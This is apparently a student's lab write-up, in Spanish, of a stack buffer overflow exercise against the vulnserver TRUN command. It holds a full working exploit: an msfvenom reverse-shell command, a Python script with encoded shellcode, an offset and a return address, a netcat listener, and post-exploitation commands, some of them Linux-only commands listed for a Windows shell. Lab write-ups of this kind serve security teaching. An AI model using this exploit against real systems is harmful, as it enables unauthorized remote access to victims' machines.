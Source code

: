 ```yaml
---
title: TAREA - BUFFER OVERFLOW
date: 2024-11-04 00:00:00 -05:00
categories: [Kill Chain, Pentesting]
tags: [Kali, Metasploit, nmap]  # TAG names should always be lowercase
---
```


En clase, vimos como obtener las direcciones de retorno de la instrucción `JMP ESP`, la cual es la instrucción que le indica al runtime que debe retornar a la memoria de stack pointer.

`!mona find -s "\xff\xe4" -m essfunc.dll`

![figura](/assets/images/return-addresses.png)

## Requerimientos.

1. El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

2. Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

3. Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

## Desarrollo.

Una conexión TCP reversa es una técnica utilizada en seguridad informática donde un sistema comprometido (la víctima) inicia una conexión hacia un sistema controlado por el atacante, en lugar de que el atacante se conecte directamente a la víctima. Esto es útil en situaciones donde la víctima está detrás de un firewall o tiene restricciones de red que impiden conexiones entrantes, pero permite conexiones salientes.

### - Primero generamos el **Shellcode** mediante el comando visto en clase el cual utiliza la herramineta **MSFvenom**:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.18.47 LPORT=4444 -f c -a x86 -b "\x00"
```
![figura](/assets/images/Tarea03/shellcode.png)

### - Incluimos el **Shellcode** generado en el script de Python que se utilizará para el ataque.

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xd9\xf7\xb8\x4f\x7f\x78\x98\xd9\x74\x24\xf4\x5b\x31\xc9"
"\xb1\x52\x31\x43\x17\x03\x43\x17\x83\x8c\x7b\x9a\x6d\xee"
"\x6c\xd8\x8e\x0e\x6d\xbd\x07\xeb\x5c\xfd\x7c\x78\xce\xcd"
"\xf7\x2c\xe3\xa6\x5a\xc4\x70\xca\x72\xeb\x31\x61\xa5\xc2"
"\xc2\xda\x95\x45\x41\x21\xca\xa5\x78\xea\x1f\xa4\xbd\x17"
"\xed\xf4\x16\x53\x40\xe8\x13\x29\x59\x83\x68\xbf\xd9\x70"
"\x38\xbe\xc8\x27\x32\x99\xca\xc6\x97\x91\x42\xd0\xf4\x9c"
"\x1d\x6b\xce\x6b\x9c\xbd\x1e\x93\x33\x80\xae\x66\x4d\xc5"
"\x09\x99\x38\x3f\x6a\x24\x3b\x84\x10\xf2\xce\x1e\xb2\x71"
"\x68\xfa\x42\x55\xef\x89\x49\x12\x7b\xd5\x4d\xa5\xa8\x6e"
"\x69\x2e\x4f\xa0\xfb\x74\x74\x64\xa7\x2f\x15\x3d\x0d\x81"
"\x2a\x5d\xee\x7e\x8f\x16\x03\x6a\xa2\x75\x4c\x5f\x8f\x85"
"\x8c\xf7\x98\xf6\xbe\x58\x33\x90\xf2\x11\x9d\x67\xf4\x0b"
"\x59\xf7\x0b\xb4\x9a\xde\xcf\xe0\xca\x48\xf9\x88\x80\x88"
"\x06\x5d\x06\xd8\xa8\x0e\xe7\x88\x08\xff\x8f\xc2\x86\x20"
"\xaf\xed\x4c\x49\x5a\x14\x07\xb6\x33\x04\xf8\x5e\x46\x28"
"\x17\xc3\xcf\xce\x7d\xeb\x99\x59\xea\x92\x83\x11\x8b\x5b"
"\x1e\x5c\x8b\xd0\xad\xa1\x42\x11\xdb\xb1\x33\xd1\x96\xeb"
"\x92\xee\x0c\x83\x79\x7c\xcb\x53\xf7\x9d\x44\x04\x50\x53"
"\x9d\xc0\x4c\xca\x37\xf6\x8c\x8a\x70\xb2\x4a\x6f\x7e\x3b"
"\x1e\xcb\xa4\x2b\xe6\xd4\xe0\x1f\xb6\x82\xbe\xc9\x70\x7d"
"\x71\xa3\x2a\xd2\xdb\x23\xaa\x18\xdc\x35\xb3\x74\xaa\xd9"
"\x02\x21\xeb\xe6\xab\xa5\xfb\x9f\xd1\x55\x03\x4a\x52\x65"
"\x4e\xd6\xf3\xee\x17\x83\x41\x73\xa8\x7e\x85\x8a\x2b\x8a"
"\x76\x69\x33\xff\x73\x35\xf3\xec\x09\x26\x96\x12\xbd\x47"
"\xb3")

shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
ip_address ='192.168.18.48'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

### - Configuramos **Netcat** en la maquina atacante para que escuche en el puerto designado (4444 en este caso).Esto permitirá capturar la conexión inversa desde la máquina víctima.

```shell
nc -lvnp 4444
```
![figura](/assets/images/Tarea03/netcat.png)

### - Mediante el siguiente comando verificamos que el puerto 4444 esta abierto y en modo **LISTEN**.

```shell
netstat -an | grep 4444  
```
![figura](/assets/images/Tarea03/netstat.png)  

### - Utilizamos **watch** y ejecutamos el comando `"netstat -an | grep 4444"` cada segundo:

```shell
watch -n 1 "netstat -an | grep 4444"
```
![figura](/assets/images/Tarea03/watch.png)
![figura](/assets/images/Tarea03/watch2.png)

### - Realizamos el ataque, con el servidor vulnerable ejecutándose en la máquina víctima, se lanza el script Python que contiene el shellcode:  

```shell
python2 exploit.py
```  
![figura](/assets/images/Tarea03/vulnserver.png)  
![figura](/assets/images/Tarea03/response.png)

### - Una vez que se ha obtenido la shell, se pueden ejecutar comandos en la máquina comprometida. Por ejemplo, para verificar el acceso:

```shell
whoami
```  
![figura](/assets/images/Tarea03/response2.png)  

### - Para revisar cada una de la direcciones restantes reemplazamos esta sección del script de python con los pointer de la lista proporcionada al inicio.

```python
shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
```  
Luego seguiendo el mismo procedimiento, se obtuvieron los siguientes resultados:

- `pointer= "\xbb\x11\x50\x62"`   
![figura](/assets/images/Tarea03/pointer1.png)   
![figura](/assets/images/Tarea03/respuesta1.png)    

- `pointer= "\xc7\x11\x50\x62"`    
![figura](/assets/images/Tarea03/pointer2.png)    
![figura](/assets/images/Tarea03/respuesta2.png)     

- `pointer= "\xd3\x11\x50\x62"`    
![figura](/assets/images/Tarea03/pointer3.png)    
![figura](/assets/images/Tarea03/respuesta3.png)    

- `pointer= "\xdf\x11\x50\x62"`    
![figura](/assets/images/Tarea03/pointer4.png)    
![figura](/assets/images/Tarea03/respuesta4.png)    

- `pointer= "\xeb\x11\x50\x62"`  
![figura](/assets/images/Tarea03/pointer5.png)    
![figura](/assets/images/Tarea03/respuesta5.png)    

- `pointer= "\xf7\x11\x50\x62"`  
![figura](/assets/images/Tarea03/pointer6.png)    
![figura](/assets/images/Tarea03/respuesta6.png)    

- `pointer= "\x03\x12\x50\x62"`  
![figura](/assets/images/Tarea03/pointer7.png)    
![figura](/assets/images/Tarea03/respuesta7.png)    

- `pointer= "\x05\x12\x50\x62"`    
![figura](/assets/images/Tarea03/pointer8.png)    
![figura](/assets/images/Tarea03/respuesta8.png) 

Una vez que se tiene acceso a la shell, es crucial verificar los permisos del usuario que la ejecuta para entender el nivel de acceso que has obtenido. Algunos comandos útiles son:

- Verificar el usuario actual:
    ```shell
    whoami
    ```  
- Verificar los grupos del usuario:
    ```shell
    id
    ```  
- Verificar permisos de archivos y directorios:
    ```shell
    ls -l /ruta/al/archivo
    ```  
- Verificar privilegios de sudo:
    ```shell
    sudo -l
    ```  
- Verificar permisos de root:
    ```shell
    sudo su
    ```  